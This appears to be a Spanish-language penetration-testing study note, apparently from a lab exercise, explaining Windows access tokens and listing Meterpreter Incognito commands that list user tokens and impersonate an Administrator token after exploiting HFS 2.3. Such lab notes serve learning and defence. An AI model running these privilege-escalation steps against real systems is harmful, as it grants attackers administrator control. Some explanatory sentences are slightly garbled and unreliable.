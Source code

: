 # Access Token Impersonation 

Tags: #WindowsAccessToken 

Windows Access Token son elementos Core del proceso de autenticación de Windows y son creados y manejados por Local Security Authority Subsystem Service (LSASS).
Windows Access Token es responsable de identificar y describir el contexto de seguridad de un proceso o amenaza que corre en un sistema. 
Los Access Token son generados por el **winlogon.exe**, proceso que cada cierto tiempo un usuario autentica satisfactoriamente. 

```bash 
# La vulnerabilidad HFS 2.3 es y la podemos explotar con Metasploit 

# Una vez adentro con Meterpreter debemos de ver los privilegios y encontrar el 'SeImpersonatePrivilege'
❯ load incognito               # Importamos el modulo de Incognito a la sesion de Meterpreter 
❯ list_tokens -u               # Lista los tokens de los usuarios 
❯ impersonate_token "ATTACKDEFENSE\Administrator" # Para elevar los privilegios al usuario 'administrador'

# Nota: Si no encontramos 'Delegation Tokens o Impersontion Tokens' podemos usar Potato attack
```